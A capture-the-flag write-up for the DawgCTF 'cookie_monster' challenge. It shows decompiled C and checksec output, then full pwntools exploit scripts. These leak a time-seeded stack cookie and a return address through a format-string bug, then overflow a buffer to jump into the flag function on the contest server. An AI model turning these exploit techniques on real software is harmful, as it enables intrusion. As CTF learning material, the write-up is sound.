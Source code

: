 Main call `conversation()`:
```c
__int64 conversation()
{
  unsigned int v0; // eax
  int v1; // eax
  char v3; // [rsp+Fh] [rbp-11h]
  char s; // [rsp+14h] [rbp-Ch]
  int v5; // [rsp+1Ch] [rbp-4h]

  v0 = time(0LL);
  srand(v0);
  v1 = rand();
  v5 = v1;
  saved_cookie = v1;
  puts("\nOh hello there, what's your name?");
  fgets(&s, 8, _bss_start);
  printf("Hello, ", 8LL);
  printf(&s);
  puts("\nWould you like a cookie?");
  gets(&v3);
  return check_cookie(v5);
}
```

There is a format string vuln on first input and a buffer overflow on second input. 
We need to bypass cookie (canary) and jump into flag function.

Checksec:
```
[*] '/home/marco/Desktop/umbccd/cookie_monster/cookie_monster'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
Since there is PIE we need to use the format string to leak the ret address (main+something) and use it to retrive flag function address.
The canary is a random number wich is bad generated. 
So the intended solution is to generate the same number executing the program in the same moment.
(code from https://github.com/toomanybananas/dawgctf-2020-writeups/blob/master/pwn/cookie_monster/cookie_sol.py):

```python
import ctypes

LIBC = ctypes.cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')

#srand on the current time to get same seed as server
LIBC.srand(LIBC.time(0))
cookie = p32(LIBC.rand())
```

MY solution:

I noticed the random number changes every second. So if we open 2 connections with 2 different programs we obtain the same number. 
We can use the first program to leak the canary, pass to the second program and use the second program to leak the address and get the flag.

Exploit:
```python
#!/usr/bin/python3.8
from pwn import *
import subprocess

r = remote('ctf.umbccd.io', 4200)
#r = process('./cookie_monster')

s = subprocess.Popen(['./leaker.py'], shell=True, stdout=subprocess.PIPE).stdout.read()
s = int(s.decode().split('\n')[3], 16)

print(r.recvuntil('?').decode())
r.sendline('%11$p')
print(r.recvuntil('Hello, ').decode())
mn = r.recv(16)
main24 = int(mn, 16)
flag = (main24-0x19a)

print('leaked cookie: ', hex(s))
print('leaked main+24: ', hex(main24), ' current flag address: ', hex(flag))


print(r.recvuntil('?\n').decode())

payload = (('A'*13).encode())
payload += p32(s)
payload += (('A'*8).encode())
payload += p64(flag)
r.sendline(payload)
print(r.recvall().decode())
#r.interactive()
```

leaker program:
```python
#!/usr/bin/python3.8
from pwn import *

p = remote('ctf.umbccd.io', 4200)
#p = process('./cookie_monster')

p.recvuntil('?')
p.sendline('%9$lx')
p.recvuntil('Hello, ')
cookie = int(p.recv(8), 16)
print(hex(cookie), "\n")
p.close()
```

# FLAG
`DawgCTF{oM_n0m_NOm_I_li3k_c0oOoki3s}`
